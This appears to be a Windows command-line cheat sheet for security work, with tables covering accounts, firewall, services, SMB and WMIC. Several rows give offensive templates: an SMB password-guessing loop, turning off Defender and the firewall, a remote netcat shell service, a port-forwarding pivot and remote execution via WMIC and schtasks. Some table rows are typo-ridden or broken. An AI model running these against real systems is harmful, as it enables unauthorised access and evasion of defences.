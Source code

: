 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Accounts and Privileges**

Topic | Command
------------- | -------------
Lauch with Admin Privs | ctrl+shift+enter 
SID | S-[revision level]-[authority level]-[domain/computer]-RID
Admin RID | 500
Guest RID | 501 
Users RID | 1001 and up
Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
List Local Users | net user
List Groups | net localgroup
List Administrators | net localgroup administrators 
List Account Policy | net accounts or net accounts /domain
Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

>**Antivirus**

Topic | Command
------------- | -------------
AntiVirus | Turn off Windows Defender | control /name Microsoft.WindowsDefender
AntiVirus | Turn off Smart Screen | control /name Microsoft.ActionCenter

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Count Lines | <code> type "file" | find /c /v "" </code>
Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Display File Contents | type [file], type *.[ext], type [file1] [file2]
Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
See Environment Variables | set, set [variable_name] <br> Example: username, path
Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Read Registry Key | reg query [keyName] 
Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Export Registry Keys | reg export [keyName] [filename.reg] 
Import Registry Keys | reg import [filename.reg]
Find a String  | find "[string]", findstr [regex]

>**Inventory, File Search, and Counting**

Network Activity | <code> netstat -na | find ":[port]"</code> 
DNS cahce | ipconfig /displaydns
Turn firewall off | netsh advfirewall set allprofiles state off
Firewall Rule | netsh advfirewall firewall add rule name="[name]" <br> dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23
Delete Firewall Rule | netsh advfirewall firewall del rule name="[name]" 
Disable Firewall | netsh advfirewall set allprofiles state off 
Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
View Firewall Configuration | netsh advfirewall show allprofiles 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name"
 Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] 

>**Process and Services**

Install a service | "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer"
List Running Services | sc query 
List All Services | sc query state= all
List Remote Services  | sc \\[targetIP] query
Check status of service | sc query [service name]
Start/Stop a service | sc start/stop [service name]
Change Startup type of service | sc config [servicename] start= demand (termservice, telnet)
Delete Service | sc delete [service name]
List Processes | tasklist
Kill a Process | taskkill /PID [process_ID] 

>**Remote Access, SMB, and WMIC**

See Current Privileges | whoami 
Windows null session | net use \\targetip "" /u:"" 
Establish an SMB session | net use \\[targetIP] [password] /u:[user]
Mount a Share on Target | net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user] 
Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del"
Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 

